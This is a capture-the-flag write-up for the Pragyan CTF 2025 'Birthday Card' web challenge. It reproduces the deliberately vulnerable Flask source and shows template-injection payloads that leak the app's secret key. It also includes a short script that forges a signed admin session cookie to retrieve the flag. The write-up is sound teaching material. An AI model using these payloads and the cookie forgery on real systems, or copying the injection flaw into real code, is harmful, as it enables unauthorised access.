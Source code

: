```yaml
---
title: Birthday Card
date: 2025-02-11 01:29:12 +0800
categories: [Hacking, CTF]
tags: [web, ssti]     # TAG names should always be lowercase
description: Using SSTI to solve Pragyan CTF 2025 "Birthday Card" challenge
---
```


## Introduction

My knowledge about SSTI is little to none, so even though this was an easy challenge I still learned a lot! Kudos to the Pragyan Team for organizing the event.

## First glance

When I went to the target site, `https://birthday.ctf.prgy.in/`, I saw this:

![firstglance](https://github.com/user-attachments/assets/acf0cb40-4c45-4eb8-a82d-82f26f7b0638){: width="400" height="800" }


My first thought is that the problem might be a sanitization issue since the only thing I can do is enter text to generate a card. Thankfully the challenge comes with the source `appy.py`

## App.py

<details markdown="1" id="appjs">
<summary>App.py</summary>

```python

from flask import Flask, request, jsonify, abort, render_template_string, session, redirect
import builtins as _b
import sys
import os


app = Flask(__name__)
app.secret_key = os.getenv("APP_SECRET_KEY", "default_app_secret")
env = app.jinja_env


KEY = os.getenv("APP_SECRET_KEY", "default_secret_key")


class validator:
    def security():
        return _b
    def security1(a, b, c, d):
        if 'validator' in a or 'validator' in b or 'validator' in c or 'validator' in d:
            return False
        elif 'os' in a or 'os' in b or 'os' in c or 'os' in d:
            return False
        else:
            return True
    
    def security2(a, b, c, d):
        if len(a) <= 50 and len(b) <= 50 and len(c) <= 50 and len(d) <= 50:
            return True
        else :
            return False
        


@app.route("/", methods=["GET", "POST"])
def personalized_card():
    if request.method == "GET":
        return """
        <link rel="stylesheet" href="static/style.css">
        <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,600&display=swap" rel="stylesheet">
        <div class="container">
            <div class="card-generator">
                <h1>Personalized Card Generator</h1>
                <form action="/" method="POST">
                    <label for="sender">Sender's Name:</label>
                    <input type="text" id="sender" name="sender" placeholder="Your name" required maxlength="50">
                    <label for="recipient">Recipient's Name:</label>
                    <input type="text" id="recipient" name="recipient" placeholder="Recipient's name" required maxlength="50">
                    <label for="message">Message:</label>
                    <input type="text" id="message" name="message" placeholder="Your message" required maxlength="50">
                    <label for="message_final">Final Message:</label>
                    <input type="text" id="message_final" name="message_final" placeholder="Final words" required maxlength="50">
                    <button type="submit">Generate Card</button>
                </form>
            </div>
        </div>
        """

    elif request.method == "POST":
        try:
            recipient = request.form.get("recipient", "")
            sender = request.form.get("sender", "")
            message = request.form.get("message", "")
            final_message = request.form.get("message_final", "")
            if validator.security1(recipient, sender, message, final_message) and validator.security2(recipient, sender, message, final_message):
                template = f"""
                    <link rel="stylesheet" href="static/style.css">
                    <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,600&display=swap" rel="stylesheet">
                    <div class="container">
                        <div class="card-preview">
                            <h1>Your Personalized Card</h1>
                            <div class="card">
                                <h2>From: {sender}</h2>
                                <h2>To: {recipient}</h2>
                                <p>{message}</p>
                                <h1>{final_message}</h1>
                            </div>
                            <a class="new-card-link" href="/">Create Another Card</a>
                        </div>
                    </div>
                """
            else :
                template="either the recipient or sender or message input is more than 50 letters"

            app.jinja_env = env    
            app.jinja_env.globals.update({
                'validator': validator()
            })
            return render_template_string(template)

        except Exception as e:
            return f"""
            <link rel="stylesheet" href="static/style.css">
            <div>
                <h1>Error: {str(e)}</h1>
                <br>
                <p>Please try again. <a href="/">Back to Card Generator</a></p>
            </div>
            """, 400
        



@app.route("/debug/test", methods=["POST"])
def test_debug():
    user = session.get("user")
    host = request.headers.get("Host", "")
    if host != "localhost:3030":
        return "Access restricted to localhost:3030, this endpoint is only development purposes", 403
    if not user:
        return "You must be logged in to test debugging.", 403
    try:
        raise ValueError(f"Debugging error: SECRET_KEY={KEY}")
    except Exception as e:
        return "Debugging error occurred.", 500



@app.route("/admin/report")
def admin_report():
    auth_cookie = request.cookies.get("session")
    if not auth_cookie:
        abort(403, "Unauthorized access.")
    try:
        token, signature = auth_cookie.rsplit(".", 1)
        from app.sign import initFn
        signer = initFn(KEY)
        sign_token_function = signer.get_signer()
        valid_signature = sign_token_function(token)

        if valid_signature != signature:
            abort(403, f"Invalid token.")

        if token == "admin":
            return "Flag: p_ctf{redacted}"
        else:
            return "Access denied: admin only."
    except Exception as e:
        abort(403, f"Invalid token format: {e}")

@app.after_request
def clear_imports(response):
    if 'app.sign' in sys.modules:
        del sys.modules['app.sign']
    if 'app.sign' in globals():
        del globals()['app.sign']
    return response
```
</details>

### Used of Jinja
I quickly glanced through the code and saw `Jinja` 

```python
            app.jinja_env = env    
            app.jinja_env.globals.update({
                'validator': validator()
            })
            return render_template_string(template)
```

This immediately made me think of Server-side Template Injection (SSTI), so I quickly returned to the target site and tested `{{ '{{' }} 7*7 }}` and indeed SSTI, is possible



![49](https://github.com/user-attachments/assets/2ce9c844-3e72-4827-a1ef-26ccee03c650){: width="600" height="300" }


### Sanitization

```python
class validator:
    def security():
        return _b
    def security1(a, b, c, d):
        if 'validator' in a or 'validator' in b or 'validator' in c or 'validator' in d:
            return False
        elif 'os' in a or 'os' in b or 'os' in c or 'os' in d:
            return False
        else:
            return True
    
    def security2(a, b, c, d):
        if len(a) <= 50 and len(b) <= 50 and len(c) <= 50 and len(d) <= 50:
            return True
        else :
            return False
```

This ensures that the input doesn't contain the string `validator` or `os`, and that it has a maximum length of 50 characters.

To solve this challenge, we don't need to bypass these checks, but they are needed in the harder version of the challenge(Deathday Card). 

For that I highly recommend reading this: [Nullbrunk Write-up for the Deathday Card Challenge](https://nullbrunk.github.io/posts/pragyan-deathdaycard/).

Going back to the challenge...


### /admin/report endpoint

```python
@app.route("/admin/report")
def admin_report():

    # Checks if the `Cookie` header contains a cookie-name called `session`
    # If not it returns a 403
    auth_cookie = request.cookies.get("session")
    if not auth_cookie:
        abort(403, "Unauthorized access.")



    try:
        # This means that the cookie-value would look like --> token.signature
        token, signature = auth_cookie.rsplit(".", 1)

        # This indicates that there is a file called sign.py
        from app.sign import initFn

        # KEY = os.getenv("APP_SECRET_KEY", "default_secret_key")
        signer = initFn(KEY)

        #Creating a valid signature
        sign_token_function = signer.get_signer()
        valid_signature = sign_token_function(token)

        # Checks if the signature from the cookie-value is not the same as the created valid_signature
        # If False then it continues but if True then it returns a 403
        if valid_signature != signature:
            abort(403, f"Invalid token.")

        
        # If the first part of the cookie-value is equal to "admin" then it gives us the flag.
        # If not then it returns a 403
        if token == "admin": # We now know that the token is "admin"
            return "Flag: p_ctf{redacted}"
        else:
            return "Access denied: admin only."
    except Exception as e:
        abort(403, f"Invalid token format: {e}")
```

***Please read the comments for my explanation of what the code is doing***

With this, to get the flag we just need to generate a valid session:

* `Token` = `"admin"`
* `Key` = `unknown`
* `Algorithm` used to generate a valid signature = `unknown`

Since we have an SSTI it was pretty easy to leak the value of `KEY`

By using this payload: `{{ '{{' }}config.items()}}` I was able to leak it :P

![leakedSecretKey](https://github.com/user-attachments/assets/cdae04ed-b59b-4bda-8761-6be842682241){: width="600" height="300" }

So we now have this:

* `Token` = `"admin"`
* `Key` = `"dsbfeif3uwf6bes878hgi"`
* `Algorithm` used to generate a valid signature = `unknown`


For the last part I actually just guessed it xD I figured I'd try to use HMAC-SHA-256 since it's a common choice to generate a signature.

## gen.py

With all of that, I created this script.

```python
import hmac
import hashlib

# Secret key
KEY = b"dsbfeif3uwf6bes878hgi"

# Token
token = "admin"

signature = hmac.new(KEY, token.encode(), hashlib.sha256).hexdigest()
auth_cookie = f"{token}.{signature}"

print(auth_cookie)
```

Running `gen.py` returns -> `admin.dc92ab47061ce7a0922596817589737de0b8dde08e7fbe6c7772ad5f87ea9f0b`

## Flag

To check if that is a valid `cookie-value`, I used it and made a request to `/admin/report` and...


![flag](https://github.com/user-attachments/assets/9d34926c-ae75-4659-8da5-9e30f86fca80)

Finally, we got the `Flag: p_ctf{S3rVer_STI_G0es_hArd}`


That's all for this write-up! Thanks for reading, and have a nice day :D

-***Datsuraku147***
